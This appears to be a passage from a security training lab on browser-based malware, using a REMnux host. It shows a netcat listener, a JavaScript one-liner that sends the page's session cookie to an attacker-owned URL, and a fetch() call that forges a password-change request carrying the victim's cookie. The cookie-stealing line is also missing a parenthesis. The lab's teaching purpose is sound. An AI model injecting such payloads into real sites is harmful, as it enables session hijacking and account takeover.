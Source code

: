 To listen for connections on port 80:

```bash
sudo -i 
nc -lp 80
```

The system should now be listening for connections on port 80.


### Session Hijacking

Many web applications use cookies or session tokens to identify users and their authenticated sessions.  By stealing a user's session cookie and copying it to their browser, an attacker can use the site while impersonating the victim and take over the account.  Common scenarios include the compromise of webmail accounts, online banking services, and company website administrator accounts.

The following code will make the browser send the user's session token for that website to an attacker-owned URL which can then be used to hijack the session and take over the account:

```javascript
new Image()).src = "//remnux/grabsessid.php?" + document.cookie;
```


In DevTools, watch the Network tab and click the `Session Hijack` button.  You can see that the cookie is sent in the URL of the request:

![](images/JavaScript%20and%20Browser-based%20Malware/image0088.png)
![](images/JavaScript%20and%20Browser-based%20Malware/image008.png)<br><br>


Hit `Ctrl + C` on the REMnux host to break the connection.

Open up port 80 again with `nc -lp 80`


### Cross-Site Request Forgery

Another scenario is JavaScript code that forces the victim browser to execute an unwanted action on a web application.  Once authenticated to the target site, a browser can be made to send an HTTP request performing a state-changing transaction, such as a password change or a purchase, which will contain the user's session token.  Since the request performing the change contains the user's session token, it will look similar to all the other legitimate requests the user has made during his authenticated session.  The target site has no way of knowing the request actually came from the attacker.

The following code will force a browser to make a state changing transaction using an HTTP request in the context of the user's authenticated session:

```javascript
fetch('//remnux/change_password.php', {method: 'post', body: document.cookie+"&new_password=thisWILLneverBEguessed22" }).then(function(r){r.text().then(function(w){console.log(w)})});
```

You should see that the REMnux console received a POST request including the two pieces of data required to make a password change---the session ID and the new password provided by the attacker. 

![](images/JavaScript%20and%20Browser-based%20Malware/image014.png)<br><br>
